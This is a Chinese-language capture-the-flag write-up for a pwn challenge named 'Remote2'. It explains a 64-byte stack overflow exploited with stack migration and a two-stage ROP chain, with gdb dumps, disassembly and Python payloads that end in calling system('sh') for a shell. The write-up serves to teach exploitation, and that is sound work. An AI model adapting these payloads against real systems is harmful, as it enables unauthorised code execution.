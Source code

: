 Remote2
==========
這題在比賽當天沒有想出來，後來看到別人的想法才摸出來的，不過實作上也花了一些時間。
主要用到 stack migration 和 ROP 來做。

解題流程
----------
程式一開始會執行 "lsh"，之後逐字讀取 64bytes 到 buffer 上，然後就馬上 retuen。
先用 gdb 觀察一下 buffer 和 rbp 的距離，rbp此時為 0x7ffc98f88e1。

	(gdb) x/10gx $rsp
	0x7fffffffdf50: 0x4141414141414141      0x0000000000000000
	0x7fffffffdf60: 0x00000000004005c0      0x0000000000400470
	0x7fffffffdf70: 0x00007fffffffe060      0x0000000800000000
	0x7fffffffdf80: 0x00000000004005c0      0x00007ffff7a58730
	0x7fffffffdf90: 0x0000000000000000      0x00007fffffffe068

可以發現 64bytes 只夠我們剛好塞到 retuen address，後面沒有空間放其他 gadget。所以我們將要做的事分成兩次送。

第一輪我們先利用 stack migration 把 rbp 引導到自己找的 buffer 上，並 retuen 回 main 裡面讀取字元的程式區塊，將 ROP chain 讀到新的 buffer 上。
```python
'A'*44 + '\x2c\x00\x00\x00' + p64(buf+0x80) + p64(main_read)
```

可以讀到新的 buffer 上是因為程式為由 rbp 為基準，推算出區域變數的位置。所以 rbp 一改，buffer 的位址也跟著變了。
<pre>
400582:       8b 45 fc                mov    eax,DWORD PTR [<b>rbp-0x4</b>]
400585:       48 8d 55 d0             lea    rdx,[<b>rbp-0x30</b>]
400589:       48 01 d0                add    rax,rdx
40058c:       ba 01 00 00 00          mov    edx,0x1
400591:       48 89 c6                mov    rsi,rax
400594:       bf 00 00 00 00          mov    edi,0x0
400599:       e8 a2 fe ff ff          call   400440 <read@plt>
</pre>
----------
另外有個地方要特別注意，由於這題是一個字一個字讀輸入，我們在蓋 buffer 時會把位於 rbp-0x4，
用來計數的值寫掉。
<pre>
0x7fffffffdf70: 0x00007fffffffe060      0x<b>00000008</b>00000000
</pre>
這會導致程式沒辦法正確判斷你讀了幾 byte 以及該讀去哪個位置。所以蓋到這邊的時候，必須將該位址原本的值再寫上去。

----------
最後，利用 leave ret 的 gadget 將 rsp 指到 ROP chain 上，並跳進第一個 gadget 開始跑，就可以拿到 shell 了！
```python
'A'*7 + p64(pop_rdi_ret) + p64(sh) + p64(system) + 'A'*12 + '\x2c\x00\x00\x00' + p64(buf+0x80-0x30) + p64(leave_ret)
```
